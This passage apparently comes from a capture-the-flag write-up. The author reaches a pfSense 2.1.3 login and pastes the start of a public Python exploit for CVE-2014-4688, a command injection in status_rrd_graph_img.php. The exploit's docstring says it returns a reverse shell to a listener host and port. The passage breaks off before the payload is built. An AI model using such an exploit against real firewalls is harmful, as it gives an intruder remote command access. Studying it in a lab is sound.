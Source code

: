 ![Untitled](uploads/Untitled%202.png)

We got in. And we can see the pfsense version is 2.1.3. And after some research, I came up with an exploit. ([CVE-2014-4688](https://nvd.nist.gov/vuln/detail/CVE-2014-4688)).

```python
#!/usr/bin/env python3

# Exploit Title: pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
# Date: 2018-01-12
# Exploit Author: absolomb
# Vendor Homepage: https://www.pfsense.org/
# Software Link: https://atxfiles.pfsense.org/mirror/downloads/old/
# Version: <=2.1.3
# Tested on: FreeBSD 8.3-RELEASE-p16
# CVE : CVE-2014-4688

import argparse
import requests
import urllib
import urllib3
import collections

'''
pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
This script will return a reverse shell on specified listener address and port.
Ensure you have started a listener to catch the shell before running!
'''

parser = argparse.ArgumentParser()
parser.add_argument("--rhost", help = "Remote Host")
parser.add_argument('--lhost', help = 'Local Host listener')
parser.add_argument('--lport', help = 'Local Port listener')
parser.add_argument("--username", help = "pfsense Username")
parser.add_argument("--password", help = "pfsense Password")
args = parser.parse_args()

rhost = args.rhost
lhost = args.lhost
lport = args.lport
username = args.username
password = args.password

# command to be converted into octal
```